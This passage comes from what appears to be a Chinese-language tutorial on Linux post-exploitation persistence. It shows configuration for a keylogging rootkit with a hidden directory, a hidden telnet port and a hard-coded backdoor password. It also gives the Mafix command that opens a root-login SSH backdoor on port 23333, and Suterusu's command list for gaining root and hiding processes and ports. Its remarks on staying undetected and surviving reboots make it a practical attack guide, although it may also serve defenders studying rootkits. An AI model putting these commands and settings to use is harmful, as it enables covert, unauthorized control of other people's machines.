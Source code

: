 重要配置：

```
//键盘记录
#define _LOGFILE_ "acctlog"

//rookit产生的日志配置文件所存储位置(此位置是被隐藏的)
#define _H4X_PATH_ "/usr/_h4x_"

//telnet端口(端口也是隐藏的,netstat是看不到的)
#define _HIDE_PORT_ 23333

//telnet的端口以及返回回来的用户名(必须能调用/sh/bash,否则安装会出现Network Daemon错误)
#define _RPASSWORD_ "lolloltest"
#define _MAGIC_NAME_ "root"

```

利用：

1、记录：

![p8](http://drops.javaweb.org/uploads/images/1b8d14d0efe6fa2fb86b41892924cb172c7818ab.jpg)

2、telnet连接

![p9](http://drops.javaweb.org/uploads/images/fbff76876774fad4aa12afabce2eb5688dafa793.jpg)

*   缺点：重启就会失效,需要放入启动项
*   优点：相比上面都是需要ssh相关或者是有一个低权限维持才能发挥的一个后门,这个是直接开放一个独立的端口

发现：其实感觉修改一下进程名,发现还是有点麻烦

![p10](http://drops.javaweb.org/uploads/images/b0df89ef98caf22603e72c30e4bd0f6fe6f19dc3.jpg)

0x08 Mafix + Suterusu rookit
============================

* * *

1、Mafix

```
./root lolloltest 23333

```

这样就会产生一个端口为23333,root密码也可以用lolloltest登陆的ssh,端口不隐藏

![p11](http://drops.javaweb.org/uploads/images/4b9ee5fbe9588cbf481f43fb0bc991e18f5dbdc0.jpg)

这时候就可以用Suterusu配合使用

2、Suterusu

功能表：

```
Get root
$ ./sock 0
Hide PID
$ ./sock 1 [pid]
Unhide PID
$ ./sock 2 [pid]
Hide TCPv4 port
$ ./sock 3 [port]
Unhide TCPv4 port
$ ./sock 4 [port]
Hide TCPv6 port
$ ./sock 5 [port]
Unhide TCPv6 port
```